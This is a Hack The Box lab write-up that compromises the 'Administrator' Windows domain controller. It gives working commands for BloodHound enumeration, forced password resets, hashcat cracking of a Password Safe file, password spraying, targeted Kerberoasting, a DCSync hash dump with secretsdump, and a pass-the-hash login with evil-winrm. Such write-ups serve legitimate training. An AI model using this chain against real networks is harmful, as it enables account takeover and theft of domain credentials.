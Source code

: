 ```yaml
---
date: 2025-04-20T00:38:38-05:00
# description: ""
image: "/images/HTB-Administrator/Administrator.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Administrator"
type: "post"
---
```


* Platform: Hack The Box
* Link: [Administrator](https://app.hackthebox.com/machines/Administrator)
* Level: Medium
* OS: Windows
---

> This box is an assumed breach scenario, we are given credentials for the following account: **Username:** Olivia **Password:** ichliebedich

For the Administrator box, we begin by leveraging the provided credentials to run BloodHound, which reveals an attack path involving the `GenericAll` and `ForceChangePassword` permissions. By exploiting these, we compromise additional user accounts and access an FTP server containing a Password Safe (`psafe3`) database file. Extracting credentials from this database grants us an initial foothold on the system. Through further enumeration we discover a privilege escalation vector with `GenericWrite` and `DCSync` permissions, ultimately enabling us to retrieve the domain administrator's hash.

## Scanning

```
nmap -sC -sV -oA nmap/Administrator 10.129.61.195
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 18:18 CDT
Nmap scan report for 10.129.61.195
Host is up (0.060s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-23 06:19:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-23T06:19:10
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds
```

The target is a Domain Controller running common Active Directory services such as Kerberos and LDAP. We also note the presence of the FTP (Microsoft ftpd) service on port 21. The domain name is `administrator.htb`.

Running `netexec smb {TARGET_IP}` we find out that the name of the target machine is `DC`, we will also add it to the hosts file.

![Machine name](/images/HTB-Administrator/machine_name.png)

```
sudo echo "{TARGET_IP} administrator.htb dc.administrator.htb" | sudo tee -a /etc/hosts
```

## Enumeration

Let's start the enumeration with the credentials provided. The user only has access to default shares. 

```
netexec smb 10.129.61.195 -u Olivia -p ichliebedich
```

![Olivia available shares](/images/HTB-Administrator/olivia_shares.png)

Let's check FTP.

```
netexec ftp 10.129.61.195 -u olivia -p ichliebedich
```

![Olivia access to FTP](/images/HTB-Administrator/olivia_FTP.png)

Olivia cannot access the FTP service most likely due to a lack of permissions.

Since we have some valid credentials, let's run Bloodhound.

```
bloodhound-python -c all -u Olivia -p ichliebedich  -d administrator.htb -ns 10.129.61.195
```

In Bloodhound we discover that `Olivia` hash the `GenericAll` permission on `Michael`, essentially full control over it. 

![Olivia GenericAll permission](/images/HTB-Administrator/Olivia_GenericAll.png)

We also find out that `Michael` has the `ForceChangePassword` permission on `Benjamin`, allowing us to forcibly change its password should we succeed to take over `Michael` account.

![Michael ForceChangePassword permission](/images/HTB-Administrator/Michael_ForceChangePassword.png)


```
net rpc password "Michael" "Paswword#@2024" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "dc.administrator.htb"

netexec smb 10.129.61.195 -u michael -p "Paswword#@2024"
```
We successfully change `Michael` password and we can login via SMB.

![Michael password change](/images/HTB-Administrator/Michael_pwd_change.png)

Next we change `Benjamin` password.

```
net rpc password "Benjamin" "Paswword#@2025" -U "administrator.htb"/"Michael"%"Paswword#@2024" -S "dc.administrator.htb"

netexec smb 10.129.61.195 -u benjamin -p "Paswword#@2025"
```

The operation is successful!

![Benjamin password change](/images/HTB-Administrator/Benjamin_pwd_change.png)

This account also has only basic access to the SMB shares.

![Benjamin SMB shares](/images/HTB-Administrator/benjamin_SMB.png)

However we see that `Benjamin` is a member of the `Share Moderators` group, and most likely has permissions to access shares on this server. 

![Share Moderator group](/images/HTB-Administrator/Share_Moderators.png)

## Initial Foothold

After returning to FTP, we notice that this account can login.

![Benjamin FTP](/images/HTB-Administrator/Benjamin_FTP.png)

There is a file called `Backup.psafe3` which we download.

> Although it seems to not matter in this case everytime you get an error of the type `WARNING! x bare linefeeds received in ASCII mode.`, you should run the `bin` command in FTP then download the file again to avoid any issues.

![FTP file](/images/HTB-Administrator/FTP_file.png)

Hashcat is able to crack psafe3 file with the mode `5200`.

```
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```

> A `.psafe3` file is a Password Safe database file. It's used by the Password Safe application, an open-source password manager. 

We recover the password `tekieromucho`.

![psafe3 password cracked](/images/HTB-Administrator/hashcat_pwd.png)

If you don't already have it download the application with `sudo apt install passwordsafe` and use the file plus the password recovered to access the passwords.

Inside the file we find three sets of credentials.

![psafe3 credentials](/images/HTB-Administrator/psafe3_creds.png)
 
After creating a list of users and a list of passwords, we can spray the passwords in order to find the valid credentials.

```
netexec smb 10.129.61.195 -u users.txt -p pwds.txt --continue-on-success
```

![Emily valid password](/images/HTB-Administrator/emily_valid.png)

The valid credentials are `emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`. We login with `evil-winrm` and recover the user flag.

```
evil-winrm -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -i administrator.htb
```

![user flag](/images/HTB-Administrator/user_flag.png)

## Privilege Escalation

Emily has the `GenericWrite` permission on `Ethan`.

![GenericWrite permission](/images/HTB-Administrator/emily_GenericWrite.png)

`GenericWrite` can be abuse to launch a targeted Kerberost attack.

```
sudo ntpdate {TARGET_IP}

python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

![Ethan hash](/images/HTB-Administrator/targeted_kerberoast.png)

We crack the hash with hashcat and recover the password `limpbizkit`.

```
hashcat ethan_hash.txt /usr/share/wordlists/rockyou.txt
```

![Ethan password cracked](/images/HTB-Administrator/ethan_pwd.png)

`Ethan` has the `DCSync` permission over the domain.

> `DCSync` allows a user or group to simulate the behavior of a Domain Controller, specifically to replicate password data, inclusing NTLM hashes, Kerberos secrets (krbtgt), and even domain controller credentials.

![DCSync permission](/images/HTB-Administrator/Ethan_DCSync.png)

We can abuse it to dump the hash of the Administrator.

```
impacket-secretsdump.py 'Administrator.htb/ethan:limpbizkit'@'dc.administrator.htb'
```

![DCSync attack](/images/HTB-Administrator/DCSync_administrator.png)

We login with the admin hash and recover the root flag.

```
evil-winrm -u 'Administrator' -H "3dc553ce4b9fd20bd016e098d2d2fd2e" -i {TARGET_IP}
```

![root flag](/images/HTB-Administrator/root_flag.png)




